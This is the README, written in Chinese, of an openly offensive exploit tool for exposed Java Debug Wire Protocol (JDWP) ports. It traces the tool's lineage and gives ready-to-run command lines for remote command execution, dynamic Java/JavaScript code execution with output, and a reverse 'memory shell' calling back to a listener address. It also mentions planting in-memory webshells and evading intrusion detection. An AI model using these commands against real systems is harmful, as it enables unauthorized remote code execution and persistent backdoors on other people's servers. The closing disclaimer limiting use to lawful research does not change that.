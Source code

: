 # jdwp-codeifier

## 介绍
对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：https://github.com/IOActive/jdwp-shellifier ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：https://github.com/Lz1y/jdwp-shellifier

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：https://github.com/r3change/jdwp-shellifier

但JDWP漏洞的利用本身不局限于“命令执行”，而且有时候为了规避入侵检测，或者为了植入内存马等，是需要动态执行Java代码的，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为jdwp-codeifier，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显

## 使用
由于原版代码依赖了很多Python2特性，改起来有点费劲，所以这一版依然还是只支持Python2，期待有师傅提交同时兼容Python2/3的PR。

### 用法
```
usage: jdwp-codeifier.py [-h] -t IP [-p Port] [-m Mode] [-c Command/Code]
                         [-a Address] [-l life]

Advanced exploitation script for JDWP by @leixiao, base on @_hugsy_, @Lz1y,
@r3change

optional arguments:
  -h, --help       show this help message and exit
  -t IP            Remote target IP (default: None)
  -p Port          Remote target port (default: 8000)
  -m Mode          command/code/rshell (default: code)
  -c Command/Code  Command or JavaScript Code (default: None)
  -a Address       The address of reverse shell (default: None)
  -l life          The survival time (minute) of the shell when unable to
                   connect to the server (default: 1)
```

### 命令执行
项目也保留了原本的命令执行功能，但命令行参数略有不同，执行 touch /tmp/success：

(需要回显使用-m command2)

```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m command -c 'touch /tmp/success'
```
![img.png](README/img.png)

### 代码执行
动态代码执行是通过new javax.script.ScriptEngineManager().getEngineByName("js").eval()实现的，所以语法上是JS代码，但依然可以调用Java方法

执行系统命令并回显：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m code -c 'new java.util.Scanner(new java.lang.ProcessBuilder("sh","-c","whoami").start().getInputStream()).useDelimiter("--!@#").next()'
```
![img.png](README/img1.png)


通过JS代码还可以动态定义类，加载外部类，插入内存马等等... 各位就自己发挥了

## 反弹Java内存Shell

https://l3yx.github.io/2023/12/03/%E9%80%9A%E8%BF%87JDWP%E6%BC%8F%E6%B4%9E%E6%B3%A8%E5%85%A5%E4%B8%8D%E4%B8%80%E6%A0%B7%E7%9A%84%E5%86%85%E5%AD%98%E9%A9%AC/#%E5%8F%8D%E5%90%91%E5%86%85%E5%AD%98Shell

```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m rshell -a 172.17.0.2:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```
![Alt text](README/img2.png)

## 命令执行回显
由于高版本JDK不支持以上JS代码执行及回显，我又优化了下命令执行的逻辑，添加了命令执行回显，支持高版本JDK
```
python2 jdwp-codeifier.py -t 172.17.0.3 -p 5005 -m command2 -c 'ls'
```

![image-20241113222527330](./README/image-20241113222527330.png)



## 免责声明
本工具仅面向合法的学习或研究行为。在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
